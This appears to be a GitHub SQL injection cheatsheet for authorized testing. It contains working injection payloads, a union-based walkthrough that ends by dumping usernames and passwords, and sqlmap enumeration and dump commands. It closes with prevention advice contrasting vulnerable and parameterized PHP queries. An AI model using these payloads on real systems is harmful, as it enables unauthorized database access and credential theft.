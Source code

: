 # 💉 SQL Injection (SQLi) - Practical Cheatsheet

**Disclaimer:** For authorized security testing and educational purposes only. Unauthorized attacks are illegal.

---

### ## Manual SQLi Detection

**Goal:** Confirm if an input point is vulnerable by breaking or manipulating the SQL query.

* **Test with Error-Based Characters:** Use these characters in URL parameters, search bars, or login forms. A database error or a change in the page indicates a potential flaw.
    ```
    '
    "
    ' OR 1=1--
    " OR 1=1--
    ' OR 'a'='a
    ```
    **Example:** `http://example.com/products.php?id=1'`

* **Test with Boolean Logic:** Observe if the page content changes based on a true/false condition.
    ```sql
    -- If this returns the original page, it's likely vulnerable.
    ' AND 1=1--

    -- If this returns a different page (e.g., "not found"), it confirms the vulnerability.
    ' AND 1=2--
    ```
    

---

### ## Manual Enumeration (Union-Based)

**Goal:** Extract data after confirming a vulnerability.

* **Step 1: Find Column Count with `ORDER BY`**
    Increment the number until you get an error. The last working number is the column count.
    ```sql
    http://.../products.php?id=1' ORDER BY 1--
    http://.../products.php?id=1' ORDER BY 2--
    http://.../products.php?id=1' ORDER BY 3--  -- This one fails
    -- Conclusion: There are 2 columns.
    ```

* **Step 2: Find Reflected Columns with `UNION SELECT`**
    Replace a valid ID with a non-existent one (`-1`) and use `UNION` to see which columns are displayed.
    ```sql
    http://.../products.php?id=-1' UNION SELECT 1,2--
    -- Look for the numbers '1' and '2' appearing on the page.
    ```

* **Step 3: Enumerate Database Information**
    Replace the numbers in the reflected columns with database functions.
    ```sql
    -- Get DB user and version
    ...id=-1' UNION SELECT user(),@@version--

    -- Get DB name
    ...id=-1' UNION SELECT database(),'foo'--
    ```

* **Step 4: Dump Schema and Data**
    Use `information_schema` to extract table and column names, then dump the data.
    ```sql
    -- Get table names
    ...id=-1' UNION SELECT 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()--

    -- Get column names from a table called 'users'
    ...id=-1' UNION SELECT 1,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users'--

    -- Dump the data
    ...id=-1' UNION SELECT GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users--
    ```

---

### ## Automated Testing with `sqlmap`

**Goal:** Use `sqlmap` to automate the detection and enumeration process for security auditing.

* **Basic Scan:**
    Point `sqlmap` at a URL with parameters.
    ```bash
    sqlmap -u "[http://example.com/products.php?id=1](http://example.com/products.php?id=1)" --batch
    ```

* **Scan a Login Form (POST Request):**
    ```bash
    sqlmap -u "[http://example.com/login.php](http://example.com/login.php)" --data="username=test&password=test" --level=3 --risk=3
    ```

* **Core Enumeration Commands:**
    ```bash
    # List databases
    sqlmap -u "..." --dbs

    # List tables of a specific database
    sqlmap -u "..." -D <database_name> --tables

    # List columns of a specific table
    sqlmap -u "..." -D <database_name> -T <table_name> --columns

    # Dump all data from a table
    sqlmap -u "..." -D <database_name> -T <table_name> --dump
    ```

---

### ## 🛡️ Prevention (The Only Real Solution)

* **Primary Defense: Prepared Statements (Parameterized Queries)**
    This technique separates the SQL command from the data, making it impossible for user input to be executed as code.

    **Vulnerable PHP:**
    ```php
    $id = $_GET['id'];
    $result = mysqli_query($conn, "SELECT * FROM products WHERE id = " . $id);
    ```

    **Secure PHP (using PDO):**
    ```php
    $stmt = $pdo->prepare("SELECT * FROM products WHERE id = ?");
    $stmt->execute([$_GET['id']]);
    $result = $stmt->fetchAll();
    ```

* **Secondary Defenses:**
    * **Input Validation:** Reject any input that does not match the expected format (e.g., if you expect a number, ensure it's a number).
    * **Least Privilege:** The application's database user should only have the minimum permissions it needs to function (e.g., only `SELECT` and `UPDATE`, but not `DROP`).
    * **Web Application Firewall (WAF):** A WAF can block basic and known SQLi patterns as a layer of defense-in-depth.
